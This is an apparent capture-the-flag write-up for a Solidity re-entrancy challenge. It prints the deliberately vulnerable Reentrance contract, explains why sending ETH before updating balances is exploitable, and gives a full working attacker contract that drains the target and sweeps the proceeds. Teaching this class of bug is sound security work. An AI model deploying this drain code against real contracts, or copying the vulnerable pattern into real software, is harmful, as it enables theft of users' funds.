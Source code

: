 <div align="center">

# Re-entrancy

</div>



**Re-entrancy (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 


1. **Understand the contract**

   - `Reentrance` keeps per-address balances in `mapping(address => uint256) balances;`.  
   - `donate(address _to)` increases `balances[_to]`.  
   - `withdraw(uint256 _amount)` does:
     i. Checks `if (balances[msg.sender] >= _amount)`.
     ii. Calls the recipient: `(bool result,) = msg.sender.call{value: _amount}("");`
     iii. If the call succeeded it does nothing with `_amount` (the `if (result) { _amount; }` is a no-op).
     iv. **Then** it subtracts from the balance: `balances[msg.sender] -= _amount;`.
   - `receive()` is payable and empty — so an attacker contract can accept ETH and run code on `receive`.
   - **Key vulnerability:** the contract sends ETH to `msg.sender` **before** updating `balances[msg.sender]`. That allows an attacker to re-enter `withdraw()` from their fallback/receive and drain funds repeatedly before their balance is reduced.

2. **Exploit Method**

  i. Check the target's ETH balance (this tells you how much to send):  
    `await web3.eth.getBalance(instance)`

  ii. Deploy your attacker contract pointed at the target (same terminal).

  iii. From the attacker, send exactly the amount you read in step 1 to the target to trigger the donate/withdraw sequence and start the reentrancy drain.

  iv. Verify the drain by re-running:  
    `await web3.eth.getBalance(instance)` — the balance should now be zero (or drastically reduced).




## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
    function balanceOf(address _who) external view returns (uint256 balance);
}

contract AttackReentrance {
    IReentrance private immutable target;
    
    constructor(address _target) {
        target = IReentrance(_target);
    }

    function hack() external payable {
        uint256 amountToDonate = address(target).balance;
        require(msg.value == amountToDonate, "Must send exactly the target's current balance");
        
        // Donate the exact amount equal to the target's initial balance
        target.donate{value: msg.value}(address(this));
        
        // Withdraw the donated amount, triggering reentrancy
        target.withdraw(msg.value);
    }

    receive() external payable {
        // On reentrancy, withdraw again if target still has funds
        uint256 ourBalance = target.balanceOf(address(this));
        if (address(target).balance > 0 && ourBalance > 0) {
            target.withdraw(ourBalance);
        }
    }

    // Optional: Function to extract funds from this contract after drain
    function extractFunds() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}


```

---


